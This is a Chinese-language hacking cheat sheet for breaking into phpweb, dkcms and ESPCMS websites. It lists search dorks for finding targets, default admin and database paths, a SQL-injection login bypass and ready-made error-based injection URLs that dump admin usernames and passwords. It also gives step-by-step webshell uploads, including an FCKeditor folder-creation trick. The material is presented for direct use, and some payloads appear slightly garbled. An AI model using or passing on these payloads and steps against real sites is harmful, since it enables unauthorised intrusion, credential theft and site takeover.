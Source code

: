 
### 0x47 phpweb

关键字：inurl:down/class/index.php?myord=

后台地址：admin.php

万能密码：admin ‘or ‘1’=’1

注入地址：down/class/index.php?myord=1

表段：pwn_base_admin

拿shell通杀漏洞：登入后台–文章–文章发布–文章内容里的图片上传按钮–抓包之后改包NC提交。

也可以用下面的exp拿shell：

用火狐浏览器登录后台，因为火狐浏览器有保留cookies的功能， 找到“phpweb之exp”这个html，拉进火狐浏览器器里上传1.php;.jpg的一句话木马，查看源码菜刀连接！

动科(dkcms)漏洞:

官方网站：www.dkcms.com主要是差不多3个版本为主吧，

V2.0 data/dkcm_ssdfhwejkfs.mdb
V3.1 _data/___dkcms_30_free.mdb
V4.2 _data/I^(()UU()H.mdb
默认后台：admin
编辑器：admin/fckeditor
后台拿shell，fck编辑器突破可拿shell
建立asp文件夹
Fck的路径：Admin/FCKeditor/editor/filemanager/connectors/asp/connector.asp?Command=CreateFolder&Type=Image&CurrentFolder=/mk.asp&NewFolderName=mk.asp


ESPCMS通杀0day :

关键字：inurl:index.php?ac=article&at=read&did=

默认后台：adminsoft/index.php siteadmin/index.php

注入点(爆表前缀)：index.php?ac=search&at=taglist&tagkey=%2527,tags) or(select 1 from(select count(),concat((select (select concat(0x7e,0x27,table_name,0x27,0x7e)) from information_schema.tables where table_schema=database() limit 0,1),floor(rand(0)2))x from information_schema.tables group by x)a)%23

爆帐号：index.php?ac=search&at=taglist&tagkey=%2527,tags) or(select 1 from(select count(),concat((select (select concat(0x7e,0x27,username,0x27,0x7e)) from 前缀_admin_member limit 0,1),floor(rand(0)2))x from information_schema.tables group by x)a)%23

爆密码：index.php?ac=search&at=taglist&tagkey=%2527,tags) or(select 1 from(select count(),concat((select (select concat(0x7e,0x27,password,0x27,0x7e)) from 前缀_admin_member limit 0,1),floor(rand(0)2))x from information_schema.tables group by x)a)%23

帐号和密码一次性爆：index.php?ac=search&at=taglist&tagkey=%2527,tags) or(select 1 from(select count(),concat((select (select concat(0x7e,0x27,username,0x27,password)) from 前缀_admin_member limit 0,1),floor(rand(0)2))x from information_schema.tables group by x)a)%23

进到后台后，直接点击分类图片-修改-选择文件-直接上传php一句话木马

PS：当上传不了php木马时，去系统设置一下，添加图片上传格式 |php ，这样就可以上传一个图片文件头的php木马。

